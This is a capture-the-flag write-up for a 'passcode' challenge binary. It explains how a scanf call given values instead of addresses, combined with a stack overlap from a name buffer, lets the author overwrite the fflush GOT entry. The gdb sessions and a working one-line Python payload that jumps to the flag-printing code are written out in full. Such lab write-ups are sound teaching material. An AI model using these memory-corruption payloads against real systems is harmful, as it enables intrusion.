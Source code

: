 # Passcode

Okay, the problem is obviously in the `login` function:

```c
void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}
```

We call `scanf` with `passcode1` and `passcode2`, instead of their addresses, which means they will be treated as pointers and we can maybe exploit this to get some kind of write-what-where.

But how do we control `passcode1` and `passcode2`? They are just sitting on the stack... Well, we have this usful `welcome` function:

```c
void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}
```

which uses a big user supplied buffer on the stack. Lets test this theory in `gdb`:

```text
(gdb) break login
(gdb) r <<< $(python -c "print ''.join(chr(i) for i in range(0x41, 0x41 + 100))")
(gdb) x $ebp-0x10
0xff837ce8:     0xa4a3a2a1
(gdb) x $ebp-0xc
0xff837cec:     0xcda51200
```

Hmm... seems like we can only override `passcode1`, so the startegy of making each of them point to themsevles and just input the passcodes breaks down.

But the writing to the adderss pointed to by `passcode1` happens from within the stack frame of `scanf`, so maybe we can run over that saved `eip` (running over the saved `eip` of `login`s stack frame isnt that usful, since theres a call to `exit`...).

But, the stack is randomized! Oh shit, what do we do know... we cant know where `scanf`'s return address will be saved! Lets look for another idea...

Consider this code:

```text
(gdb) disas 0x80484a0
Dump of assembler code for function __isoc99_scanf@plt:
   0x080484a0 <+0>:     jmp    DWORD PTR ds:0x804a020
   0x080484a6 <+6>:     push   0x40
   0x080484ab <+11>:    jmp    0x8048410
End of assembler dump.
```

This looks a call to a `got` function, which means that if we overrite `0x804a020`, every call to `scanf` will jump to wherever we want, for example to `*login+115` (`0x080485d7`), which is the part that prints the flag.

Lets give it a try! We saw that `passcode1` was overriten to be `0xa4a3a2a1`, which means its at an offset of `0x60` bytes from the start of `name` (in `welcome`).

So our exploit will look a little like this:

```bash
python -c 'print "A" * 0x60 + "\x20\xa0\x04\x08" + "\n" + "134514135"' | ./passcode
```

Well, that didnt work... Why? That nasty little space (`\x20`)! Well, lets just look for another `got` entry to overrite! `fflush` seems to be ok...

```bash
python -c 'print "A" * 0x60 + "\x04\xa0\x04\x08" + "\n" + "134514135"' | ./passcode
```

Woohoo!